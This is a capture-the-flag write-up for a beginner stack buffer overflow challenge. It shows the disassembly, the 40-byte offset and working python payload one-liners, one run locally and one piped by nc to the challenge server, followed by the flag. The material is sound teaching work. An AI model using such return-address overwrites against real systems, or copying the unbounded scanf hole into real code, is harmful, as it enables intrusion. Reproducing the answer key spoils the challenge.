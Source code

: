 # Party Invitation

## Question Text
There's an awesome that's going to go down next week. Gotta get the invitation!

*Created - Noans*

## Distribution
- AwesomeParty 
	- SHA1: `a31ecb2e11a5b6762f78244f5103b424b0080b72`
	- Compiled from `generate.c` in generate folder using `cc generate.c -fno-stack-protector -Wl,--section-start=.special=0x1a1b1c1d`

## Solution
1. You would need to do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
00000000004005c6 <check>:
  4005c6:	55                   	push   %rbp
  4005c7:	48 89 e5             	mov    %rsp,%rbp
  4005ca:	48 83 ec 20          	sub    $0x20,%rsp
  4005ce:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  4005d2:	48 89 c6             	mov    %rax,%rsi
  4005d5:	bf 0c 07 40 00       	mov    $0x40070c,%edi
  4005da:	b8 00 00 00 00       	mov    $0x0,%eax
  4005df:	e8 cc fe ff ff       	callq  4004b0 <__isoc99_scanf@plt>
  4005e4:	bf 0f 07 40 00       	mov    $0x40070f,%edi
  4005e9:	e8 a2 fe ff ff       	callq  400490 <puts@plt>
  4005ee:	90                   	nop
  4005ef:	c9                   	leaveq 
  4005f0:	c3                   	retq
```
```
Disassembly of section .special:

000000001a1b1c1d <invitation>:
    1a1b1c1d:	55                   	push   %rbp
    1a1b1c1e:	48 89 e5             	mov    %rsp,%rbp
    1a1b1c21:	bf 98 06 40 00       	mov    $0x400698,%edi
    1a1b1c26:	e8 65 e8 24 e6       	callq  400490 <puts@plt>
    1a1b1c2b:	bf c0 06 40 00       	mov    $0x4006c0,%edi
    1a1b1c30:	e8 5b e8 24 e6       	callq  400490 <puts@plt>
    1a1b1c35:	90                   	nop
    1a1b1c36:	5d                   	pop    %rbp
    1a1b1c37:	c3                   	retq  
```
3. The third line of the disassembly of the check function tells us 32 bytes is reserved for a variable.
4. You would also need to understand that the next 8 bytes is the `%rbp` of the check function.
5. Therefore, realize that one needs to write 40 bytes of garbage first to be able to overwrite the return address of the check function.
6. Also derive address of `awesome` function is `1a1b1c1d`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | nc pwn.chal.gryphonctf.com 18153`

### Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64